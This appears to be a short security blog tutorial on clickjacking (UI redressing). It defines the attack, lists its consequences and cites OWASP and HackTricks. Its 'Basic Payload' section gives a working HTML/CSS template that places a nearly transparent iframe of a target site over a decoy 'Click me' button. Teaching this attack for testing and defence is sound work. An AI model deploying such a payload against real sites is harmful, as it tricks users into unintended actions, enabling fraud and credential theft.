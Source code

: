 ```yaml
---
title: Clickjacking (UI redressing)
#author: cotes
date: 2024-11-21 12:00:00 +04:00
categories: [Web Vulnerabilities,Clickjacking]
tags: [Web Vulnerabilities]
render_with_liquid: false
image:
  path: /images/web_vulnerabilities/clickjacking/clickjacking.png
  alt: Clickjacking
---
```


## What is Clickjacking?

Clickjacking, also known as a “UI redress attack," unintentionally clicks on an invisible button placed over the visible web page user interface. This is possible when the invisible button is present in the iframe layer which is essentially superimposed over the actual page.

So, when a user clicks on some area thinking of performing a particular action, they are actually performing some other action.

This can cause users to unwittingly download malware, visit malicious web pages, provide credentials or sensitive information, transfer money, or purchase products online.

## Exploitation

**Basic Payload**

<pre>
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 470px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe src="https://publish.hoax.com/"></iframe>
</pre>






## References

[**OWASP**](https://owasp.org/www-community/attacks/Clickjacking)

[**Hacktricks**](https://book.hacktricks.xyz/pentesting-web/clickjacking)

